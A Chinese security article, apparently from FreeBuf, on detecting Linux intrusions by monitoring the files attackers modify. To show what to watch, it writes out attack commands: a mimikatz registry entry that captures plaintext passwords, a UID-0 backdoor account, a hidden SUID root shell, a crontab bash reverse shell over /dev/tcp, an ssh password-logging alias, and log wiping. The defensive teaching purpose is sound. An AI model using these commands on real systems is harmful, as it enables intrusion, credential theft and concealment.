







# 安全防御：Linux入侵检测之文件监控

url：https://www.freebuf.com/articles/system/240784.html

## 一、前言

**之前从大的宏观角度基于ATT&CK矩阵[ATT&CK矩阵Linux系统安全实践](https://www.freebuf.com/articles/es/231784.html)介绍了linux主机检测的方向，后面的系列从分几个层次，降低维度介绍，最后再从每个小的技术点出发，本文同样本着从攻击者的角度出发进行防御。**

linux的文件监控是在安全防护中的很重要的一个环境，可识别可疑篡改和文件权限更新，及时发现恶意代码等。以webshell为例，目前检测Webshell的方式较多，有基于HTTP流量、基于Web访问日志、基于文件特征Webshell变量名、危险函数名等以及基于动态沙箱和机器学习。基于文件特征检测部署方便，一个脚本就可以完成，准确率高，可拓展性强，同时可以执行添加规则，当然修改文件特征值，也很有可能被绕过。识别和分析恶意样本，基于文本和二进制特征匹配原理，通过命令行界面或带有YARA-Python扩展名的Python脚本使用。

为什么要进行文件监控防护？对于恶意文件有必要进行全文检索吗？如何减少检索量？

Linux的攻击形式，排除溢出漏洞，基于一切皆文件的原理，其终究是在修改文件和执行可执行文件，将文件和SVN文件或者原始目录进行文件哈希对比，识别出一些不一致的文件，通过排查新增和修改的文件，再识别出攻击者上传的Webshell。（使用diff也是同样的原理）。同样包括在命令控制、持久化以及横向移动清理痕迹中，都需要对文件进行修改。

## 二、开源的可实现的文件监控项目

### OSSEC

ossec 可以对文件进行检查，包括文件是否修改，修改的内容(正常手段，有时候)，文件属性等等。关于文件的监控，在OSSEC.CONF文件中

```
<ossec_config>
<syscheck>。。。。文件监控内容
</syscheck>
</ossec_config>
```

### audit

audit工具可以对文件使用进行监控，可以监控是哪个进程对文件进行读写执行和atrribute属性修改。

```
Auditctl -w /home/wt7315 -p wxra
```

## 三、目录/监控监控

/etc目录是系统主要的配置文件几乎都放置到这个目录内，例如人员的账号密码文件、各种服务的起始文件等。

*/bin主要放置一些系统必备执行的档例，是用户和管理员必备的二进制文件。

> /bin
>
> /usr/bin
>
> /sbin
>
> /usr/sbin
>
> /etc

## 四、从攻击者角度进行文件监控

### 信息收集之凭证获取阶段的文件监控

在windows域渗透中，可以通过SAM文件获取密码，以及通过mimikatz获取明文登录密码。 安全支持提供程序（SSP），主要功能是扩展Windows身份认证机制，该DLL文件会在lsass.exe 启动过程中进行加载。 DLL和注册表结合，将Mimikatz程序中的mimilib.dll复制到目标机器的system32文件夹下向路径：`hklm\system\currentcontrolset\control\lsa\`添加新值

```
reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ
```

用户登陆即会在相同路径下（System32）记录明文密码，且重启依旧会记录。



也可以将mimikatz注入内存中，当用户登陆时，System32文件夹下会自动存储mimilsa里面存放登陆的账号密码。

 
 

那么linux系统要获取存储在内存中的密码和哈希，进程必须在/proc文件系统中打开待分析进程的映射文件。该文件存储在/proc/$pid/maps路径下。其中，目录是要查询此类身份认证数据程序的唯一pid。

使用mmipenguin：`https://github.com/huntergreg`

### 持久化中的文件监控

(1.) 开机启动过程rhel6启动过程，7和6的区别使用systemd对进程初始化


对于支持service的程序，安装的时候，会自动在/etc/init.d目录下自动添加一个配置文件，使用service httpd start，会开启/etc/init.d/httpd配置文件里指向的/usr/sbin/httpd




对于支持 systemd 的程序，安装时会自动的在 /usr/lib/systemd/system 目录添加一个配置文件。使用 systemctl 控制该程序时，systemctl start httpd.service, systemctl 就会开启 httpd.service 配置里面指向的 /usr/sbin/httpd 可执行文件



(2.) Linux init在systemd成为主流之前，sysvinit是大多数发行版的选择，即使是Ubuntu之前使用的upstart，和sysvinit也是完全兼容的，直到今天，Debian系发行版仍保留sysvinit的兼容性。作为Linux的init程序，也就是PID 1，负责启动之后的所有进程，所有的服务都是由它管理，是实现rootkit的常见手段。对于传统的sysvinit，常见的驻留点都需要以root身份写入：

```
/etc/init.d
/etc/rc[runlevel].d
/etc/rc.local
```



对于systemd，有更多手段实现驻留，甚至不需要root权限也可以：

```
/etc/systemd/system
/etc/systemd/user
/lib/systemd/system
/lib/systemd/user
~/.local/share/systemd/user
~/.config/systemd/user
```

(3.) 用户环境信息bashrc与profile都用于保存用户的环境信息，bashrc用于交互式non-loginshell，而profile用于交互式login shell。系统中存在许多bashrc和profile文件



(4.) run commands

以rc开头或结尾的文件：

> rcxinetd,~/.bashrc等文件
>
> rc.d和rcX.d等目录

(5.) 图形化环境下

在安装图形化的服务器上，基于gnome等桌面环境和xorg是常用和经常被忽略的手段



(6.) 任务计划

crond是linux下用来周期性的执行某种任务或等待处理事件的一个守护进程，提供使用者控制计划任务命令：crontab，分系统任务调度和用户认读调度 /var/spool/cron/ /etc/cron*

(7.) 动态链接库劫持

linux动态链接库的加载顺序:

> 编译时指定的run path
>
> LD_LIBRARY_PATH 指定的地方
>
> ldconfig 指定的地方
>
> /lib

/usr/lib替换动态链接库libc会被几乎所有的ELF调用，而特定的lib则会被特定的ELF调用，只要某个ELF的执行概率够高，我们同样可以用我们重新编译的恶意so替换掉它所链接的某个so文件，达到执行恶意代码的效果



ld.so.preload最常见的实现是在/etc/ld.so.preload中写入我们需要让libc执行的so文件，或者设置LD_PRELOAD环境变量/etc/profile~/.bashrc~/.bash_profile~/.bash_logout

### 权限维持之文件监控

常见的后门权限维持技术如下，从常见的后门技术，对文件进行监控

（1）增加超级用户帐号

```
echo "mx7krshell:x:0:0::/:/bin/sh" >> /etc/passwd
```

（2）破解/嗅控用户密码

获得shadow文件后，用John the Ripper工具破解薄弱的用户密码，根据我所使用的情况下只能破解一些简单常用密码其它密码很难跑出来。除此之外可以使用hashcatGPU、或者分布式服务器来进行破解

（3）放置SUID Shell**

普通用户在本机运行/dev/.rootshell，即可获得一个root权限的shell。

```
cp /bin/bash /dev/.rootshell
chmod u+s /dev/.rootshell
```

（4）Crontab定时任务

```
(crontab -l;printf "*/5 * * * * exec9<> /dev/tcp/localhost/8080&&exec0<&9&&exec1>&92>&1&&/bin/bash --noprofile –I;rno crontab for`whoami`%100cn")|crontab –
```

（5）alias 后门当前用户目录下.bashrcalias ssh='strace -o /tmp/sshpwd-date '+%d%h%m%s'.log -e read,write,connect -s2048 ssh'

（6）pam 后门 or openssh修改pam_unix_auth.c，添加万能密码

等等，都需要新增加文件或者修改文件

### 清理痕迹之文件监控

(1) 仅清理当前用户： history -c

(2) 使系统不再保存命令记录：vi /etc/profile，找到HISTSIZE这个值，修改为0

(3) 删除记录删除登录失败记录：echo > /var/log/btmp删除登录成功记录：echo > /var/log/wtmp 删除日志记录：echo > /var/log/secure

(4) 不记录ssh公钥在本地.ssh目录中

```
ssh -o UserKnownHostsFile=/dev/null -T user@host /bin/bash –i
```

(5) 登录账户 w下管理员是看不到的

```
ssh -T somebody@8.8.8.8 /bin/bash –i
```

总结：

在入侵检测中对文件的监控需求分类大致可分为：

> a. 特定文件正在被那些进程操作 
>
> b. 特定进程正在操作那些文件
>
> c. 实时监控特定文件一段时间
>
> d. 特定的程序在执行过程中会操作那些文件 

Linux下“一切皆文件”，监控文件，就能掌控系统。从攻击者的角度对攻击点进行打点，将攻击者的一次完整性的攻击分阶段性，满足其中几个阶段性的步骤，判断为异常事件。